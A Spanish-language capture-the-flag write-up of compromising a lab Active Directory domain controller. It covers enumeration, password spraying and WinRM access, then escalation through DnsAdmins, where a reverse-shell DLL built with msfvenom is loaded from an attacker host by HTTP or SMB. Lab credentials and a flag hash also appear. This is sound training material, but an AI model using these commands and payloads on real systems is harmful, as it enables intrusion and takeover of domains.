Se comienza con una fase de enumeración de puertos sobre la máquina objetivo, con el fin de identificar cuáles se encuentran abiertos.

``sudo nmap 10.129.96.155 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



A partir de los puertos detectados, se realiza un análisis más detallado con el objetivo de identificar los servicios asociados, sus versiones y recopilar información adicional mediante scripts de enumeración, lo que permite evaluar posibles vectores de ataque.

``nmap 10.129.96.155 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49686,49710,49735 -oN target``




La combinación de servicios expuestos (Kerberos, LDAP, SMB, DNS) indica claramente que el objetivo actúa como Domain Controller dentro de un entorno Active Directory.

A su vez, puede observarse el nombre del dominio: ``megabank.local``

Para comprobar y extraer más información:

``netexec smb 10.129.96.155``



Se añade la información recolectada en el output de NMAP y la salida de ``netexec`` para el protocolo SMB en el ``/etc/hosts``:



Se comienza la enumeración del dominio con el objetivo de generar un diccionario de usuarios válidos:

`` rpcclient -U '' 10.129.96.155 -N -c enumdomusers``



Esto permite obtener usuarios del dominio mediante una null session y generar un primer listado de posibles cuentas.

``rpcclient -U '' 10.129.96.155 -N -c enumdomusers | cut -d '[' -f2 | cut -d ']' -f1 > rpcusers.txt``



Una vez se ha generado el diccionario de usuarios, se validan los usuarios a nivel de dominio mediante el protocolo Kerberos con ``kerbrute``:

``kerbrute userenum --dc 10.129.96.155 -d megabank.local rpcusers.txt ``



Generamos un nuevo diccionario con los usuarios válidos a nivel de dominio:

``kerbrute userenum --dc 10.129.96.155 -d megabank.local rpcusers.txt | grep megabank |awk '{print $NF}' | cut -d'@' -f1 > users.txt``



Dado que se desconoce la política de contraseñas del dominio, se procede con cautela para evitar bloqueos de cuentas o la generación excesiva de alertas defensivas. Por ello, inicialmente se prueba una única combinación usuario:contraseña utilizando el propio nombre de cada usuario como contraseña.

``netexec smb 10.129.96.155 -u users.txt -p users.txt --no-bruteforce --continue-on-success``

Sin éxito.

Se decide seguir enumerando por RPC:

``rpcclient -U '' 10.129.96.155 -N -c querydispinfo``


El output revela un dato especialmente relevante en la descripción del usuario ``marko``: ``Account created. Password set to Welcome123!``

Se validan las credenciales identificadas contra el servicio SMB con ``netexec``:

``netexec smb 10.129.96.155 -u 'marko' -p 'Welcome123!'``

Sin embargo, las credenciales no son válidas para dicho usuario.

Con esa posible contraseña, se realiza un ataque de ``Password Spraying`` sobre los usuarios válidos del dominio:

``netexec smb 10.129.96.155 -u users.txt -p 'Welcome123!'``



La contraseña resulta válida para el usuario `melanie`.

``echo 'melanie : Welcome123!'> creds.txt``

Una vez se consiguen credenciales válidas a nivel de dominio, se puede comenzar a enumerar información del dominio.

``netexec smb 10.129.96.155 -u melanie -p 'Welcome123!' --pass-pol``



Hasta este punto únicamente se han realizado dos intentos fallidos por usuario. La política de bloqueo revela que no existe un umbral de bloqueo de cuentas (``Account Lockout Threshold: None``), por lo que es posible realizar ataques de fuerza bruta sin riesgo de bloquear usuarios.

No obstante, en un entorno real este tipo de ataques deben ejecutarse con cautela para minimizar la generación de alertas defensivas.

Se analizan los recursos compartidos para el usuario comprometido:

``netexec smb 10.129.96.155 -u melanie -p 'Welcome123!' --shares ``



``IPC$``,``NETLOGON`` y ``SYSVOL``.

Tras acceder a los recursos compartidos mediante ``smbclient``, no se identifica información relevante.

A continuación, se comprueba si el usuario pertenece al grupo `Remote Management Users`:

``netexec winrm 10.129.96.155 -u melanie -p 'Welcome123!'``



El usuario ``melanie`` dispone de acceso remoto mediante WinRM:

``evil-winrm -i 10.129.96.155 -u 'melanie' -p 'Welcome123!'``



Se obtiene acceso al sistema con el usuario `melanie`.

Se puede recoger la flag de usuario en su escritorio: ``C:\Users\melanie\Desktop\user.txt``



user.txt = 2df4248e64e11f98a8300ba03734abcf

# PRIVESC

Una vez obtenido acceso al sistema, se realiza una fase de enumeración interna con el objetivo de identificar posibles vectores de escalada de privilegios. Se encuentran varios directorios ocultos en ``C:\``.

``dir -Force``



Durante la enumeración destaca el directorio ``C:\PSTranscripts``. 



Dentro del directorio se encuentra la carpeta `20191203`, la cual contiene transcripciones de sesiones PowerShell, entre ellas el archivo `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`.

Si se analiza su contenido:

``type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``



Se validan las credenciales identificadas en la transcripción contra el servicio SMB con ``netexec``:

``netexec smb 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'``



Aunque ``netexec`` muestra el indicador ``Pwn3d!`` para SMB, el usuario no dispone de privilegios suficientes para obtener ejecución remota mediante ``psexec``.

``echo 'ryan : Serv3r4Admin4cc123!'> creds.txt``

A continuación, se comprueba si el usuario dispone de acceso remoto mediante WinRM:

``netexec winrm 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'``



El usuario ``ryan`` puede conectarse a la máquina víctima mediante WinRM:

``evil-winrm -i 10.129.96.155 -u 'ryan' -p 'Serv3r4Admin4cc123!'``

Dentro del escritorio de Ryan se encuentra ``note.txt``:



Es un correo al equipo: ``Due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute.``

Una vez dentro:

``whoami /all``



El usuario `ryan` forma parte del grupo `DnsAdmins` (`MEGABANK\DnsAdmins`), lo que representa una vía potencial de escalada de privilegios.

Esto resulta especialmente crítico cuando el servicio DNS se ejecuta en el propio DC, como ocurre en este caso. Esto puede inferirse tanto por el puerto 53 expuesto como por el contexto de la máquina. 

La vía de explotación seguirá los siguientes pasos:
- Generar una DLL maliciosa con una reverse shell con ``msfvenom``.
- Compartir la DLL con la máquina víctima.
- Configurar el servidor DNS para cargar la DLL maliciosa.
- Levantar listener en máquina atacante con ``netcat``.
- Reiniciar el servicio DNS.
- Obtener ejecución de código como ``NT AUTHORITY\SYSTEM``.

Para ello:

- 1: Se genera DLL maliciosa.

``msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.143 LPORT=443 -f dll -o rev.dll``



A partir de este punto, existen dos formas de hacer accesible la DLL al DC:

- Opción 1: compartir mediante HTTP
	- Se levanta un servidor web en la máquina atacante: ``python3 -m http.server 80``
	- Desde la máquina víctima se realiza solicitud del recurso: ``iwr http://10.10.15.143/rev.dll -o rev.dll``



Una vez descargada la DLL maliciosa, se configura el servicio DNS para cargarla:

``dnscmd.exe /config /serverlevelplugindll C:\temp\rev.dll``

- Opción 2: compartir mediante SMB

Alternativamente, si el método anterior presenta problemas, puede compartirse la DLL directamente mediante SMB sin necesidad de almacenarla localmente en el sistema víctima.

En este caso, no se indicará una ruta local del sistema, sino una ruta de red apuntando a un recurso compartido.

- Se levanta servidor SMB en la máquina atacante: ``impacket-smbserver -smb2support test .``
- Se modifica la configuración del servicio DNS indicando directamente la ruta remota del recurso compartido:

``dnscmd.exe /config /serverlevelplugindll \\10.10.15.143\test\rev.dll``



- En cualquiera de los dos casos anteriores, una vez se ha compartido la DLL maliciosa y se han realizado los cambios en la configuración, se levanta un listener en máquina atacante con ``netcat``:

``rlwrap nc -nvlp 443``

- Se reinicia el servicio DNS para forzar la carga de la DLL maliciosa:

Apagar: ``sc.exe stop dns``



Encender: ``sc.exe start dns``



- Tras reiniciar el servicio DNS, se comprueba el listener levantado en la máquina atacante:



Se obtiene acceso como ``NT AUTHORITY\SYSTEM``, lo que permite recoger la flag del usuario ``Administrator`` en su escritorio:


